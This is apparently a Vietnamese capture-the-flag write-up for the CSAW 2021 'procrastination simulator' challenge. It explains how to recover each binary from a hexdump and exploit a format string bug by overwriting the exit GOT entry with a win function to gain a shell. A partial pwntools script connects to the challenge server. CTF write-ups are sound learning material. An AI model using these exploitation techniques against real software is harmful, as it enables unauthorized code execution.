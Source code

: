 # Writeup csaw 2021
#   Author: shawking
> # Challenge Name : procrastination simulator
Vì sau khi kết thúc giải họ đã đóng server ngay nên mình cũng ko kịp chụp lại hình ảnh nên chỉ tóm tắt và giải thích payload. 

khi ta kết nối vào server sẽ yêu cầu ta nhập password mà tác giả cho trước. Sau đó chuong trình sẽ in ra hexdump binary như sau:

![screenshot](https://github.com/shawking2/Writeup/blob/main/Csaw/2021/procrastination-simulator/img/img1.png)

Ta sẽ lấy bản hexdump này về dùng ```xxd -r``` để convert nó sang binary. Sẽ có 3 challenge giống nhau như vậy. Các chương trình này chỉ khác nhau ở địa chỉ hàm ```win```. Khi ta lên shell thành công chương trình sẽ cung cấp ip , port và password cho challenge tiếp theo. Ở bài này ta tồn tại lỗi fomat string nên ta chỉ vần overwrite got_exit bằng địa chỉ hàm win ta sẽ có được shell. Code khai thac level1 (từ 1 -> 30):
```
from pwn import *
import os
passw = '0619b9a41fcc3e30b1e0cc206d58c37e'
port = 11001

while(1):
    p = remote("auto-pwn.chal.csaw.io",port)

    p.sendlineafter("> ",passw)

    p.recvline()
    p.recvline()
    p.recvline()

    leak = p.recvuntil("-------------------------------------------------------------------\n")[:-68]
    open('challenge', 'wb').write(leak)
    os.system("cat challenge | xxd -r > done_file")

    elf = ELF("./done_file")
```